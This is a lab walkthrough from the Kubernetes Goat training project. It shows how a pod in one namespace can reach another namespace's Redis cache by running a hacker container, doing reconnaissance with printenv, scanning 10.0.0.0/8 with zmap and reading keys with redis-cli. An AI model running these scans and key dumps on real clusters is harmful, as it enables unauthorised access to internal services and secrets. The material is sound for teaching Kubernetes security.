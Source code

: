 ```yaml
---
title: ⎈ Kubernetes namespaces bypass
sidebar_label: Welcome
sidebar_position: 2
description: Bypass Kubernetes Namespace from Kubernetes pod to gain access to the cluster - Kubernetes Goat Scenario 🚀
slug: kubernetes-namespaces-bypass-from-kubernetes-cluster-pod/welcome
---
```


# ⎈ Kubernetes namespaces bypass

## 🙌 Overview

Woah! this is a big misconception in the Kubernetes world. Most people assume that when there are different namespaces in Kubernetes and resources are deployed and managed they are secure and not able to access each other. Many real-world multi-tenant environments are getting exploited and critical resources are exposed internally due to this. By default, Kubernetes comes with flat networking schema and if we need to have segmentation then we have to create them by creating certain boundaries like NSP (network security policies) and others. In this scenario, we see how we can bypass the namespaces and access other namespaces resources.

![](../images/scenario-11.png)

By the end of the scenario, we will understand and learn the following

1. You will understand the misconception of the Kubernetes namespaces
2. Learn about the Kubernetes networking flat schema and communicating across namespaces
3. Performing the reconnaissance and testing for the network port scanning and vulnerabilities
4. Gaining access to other namespaces resources bypassing the namespaces restrictions

### ⚡️ The story

By default, Kubernetes uses a flat networking schema, which means any pod/service within the cluster can talk to others. The namespaces within the cluster don't have any network security restrictions by default. Anyone in the namespace can talk to other namespaces. We heard that Kubernetes-Goat loves cache. Let's see if we gain access to other namespaces

:::info

- To get started with the scenario, let's run our awesome `hacker-container` in the default namespace

```bash
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
```

:::

![Scenario 11 Welcome](../images/sc-11-1.png)

### 🎯 Goal

:::tip

Gain access to the `cache-store` and obtain the `k8s_goat_flag` flag value to complete this scenario.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Don't see other services? </b></summary>
  <div>
    <div>Let's go back to the old school port scanning, but with <b>zmap</b> with entire cluster range for redis port 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Found cache-store service? </b></summary>
  <div>
    <div>Now it's time to read redis docs and get the <b>SECRETSTUFF</b> key 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

- Let's run the `hacker-container` in the default namespace by using the following command to get started

```bash
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
```

:::tip

If you don't see the terminal TTY, just press Enter key on your keyboard.

:::

- First, we need to understand the cluster IP range information so that we can use the port scanners to scan the entire cluster range as we don't know which IP address these what services are running

- Some of the simple commands to understand and get more information about the network are as below

```bash
ip route
```

```bash
ifconfig
```

```bash
printenv
```

![Scenario 11 recon](../images/sc-11-2.png)

- Based on the analysis/understanding of the system. We can run the internal scan for the entire cluster range using `zamp` on port 6379 (the default port of Redis - assuming the cache service is Redis, but there is no limit for the testing here, in real-world we see a lot of internal services like ElasticSeach, Mongo, MySQL, etc.)

```bash
zmap -p 6379 10.0.0.0/8 -o results.csv
```

:::note

To run `zmap` on 10.0.0.0/8 you may need adjust the blacklist (/etc/zmap/blacklist.conf) configuration

:::


![Scenario 11 zmap](../images/sc-11-3.png)

- Let's look at the results returned from the scan so that we can see if we can access them from the current pod and current namespace

![Scenario 11 output ips](../images/sc-11-4.png)

:::tip

There is also another way to access the services/pods in the Kubernetes. For example using the [DNS](https://kubernetes.io/docs/concepts/services-networking/service/#dns) `cache-store-service.secure-middleware` (servicename.namespace).

:::

- As we have identified the IP address of the service, now we can use the default `redis` using client `reds-cli` to talk to the service and explore

```bash
redis-cli -h 10.12.0.2
```

- To get all the available keys

```bash
KEYS *
```

- To get the specific key information using `GET`

```bash
GET SECRETSTUFF
```

![Scenario 11 redis access](../images/sc-11-5.png)

:::tip

There are many other services and resources exposed within the cluster like ElasticSearch, Mongo, etc. So if your recon skill is good then you got a gold mine here.

:::

- Hooray 🥳 , now we can see that it contains Kubernetes Goat flag

## 🔖 References

- [Kubernetes Namespaces](https://kubernetes.io/docs/concepts/overview/working-with-objects/namespaces/)
- [Kubernetes Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/)
